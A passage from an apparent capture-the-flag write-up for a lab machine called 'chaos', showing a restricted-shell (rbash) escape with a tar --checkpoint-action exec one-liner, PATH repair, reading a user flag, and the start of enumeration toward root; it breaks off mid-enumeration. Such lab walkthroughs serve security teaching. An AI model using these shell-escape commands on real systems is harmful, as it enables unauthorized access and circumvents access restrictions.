 Using either [this Linux restricted shell bypass guide](https://www.exploit-
db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf) or
[gtfobins](https://gtfobins.github.io/gtfobins/tar/) I’ll see that `tar` can
break out of rbash.

    
    
    www-data@chaos:/home$ echo $PATH
    /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    www-data@chaos:/home$ su - ayush
    Password:
    ayush@chaos:~$ tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
    tar: Removing leading `/' from member names
    bash: groups: command not found
    ayush@chaos:~$ cd ~
    ayush@chaos:~$ ls
    Command 'ls' is available in '/bin/ls'
    The command could not be located because '/bin' is not included in the PATH environment variable.
    ls: command not found
    ayush@chaos:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
    ayush@chaos:~$ ls
    mail  user.txt
    

Now I have access to `user.txt`:

    
    
    ayush@chaos:~$ cat user.txt
    eef39126...
    

## Privesc: ayush –> root

### Enumeration

Looking around in ayush’’s home directory, I see the `.mozilla` directory:

    
    
    ayush@chaos:~$ ls -la
    total 40
    drwx------ 6 ayush ayush 4096 May  8 06:57 .
    drwxr-xr-x 4 root  root  4096 Oct 28  2018 ..
    drwxr-xr-x 2 root  root  4096 Oct 28  2018 .app
    -rw------- 1 root  root     0 Nov 24 23:57 .bash_history
    -rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
    -rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
    drwx------ 3 ayush ayush 4096 May  8 06:57 .gnupg
    drwx------ 3 ayush ayush 4096 May  7 05:11 mail
    drwx------ 4 ayush ayush 4096 Sep 29  2018 .mozilla
    -rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
    -rw------- 1 ayush ayush   33 Oct 28  2018 user.txt
    

Inside of it, there’s a single default profile, `bzo7sjt1.default`:
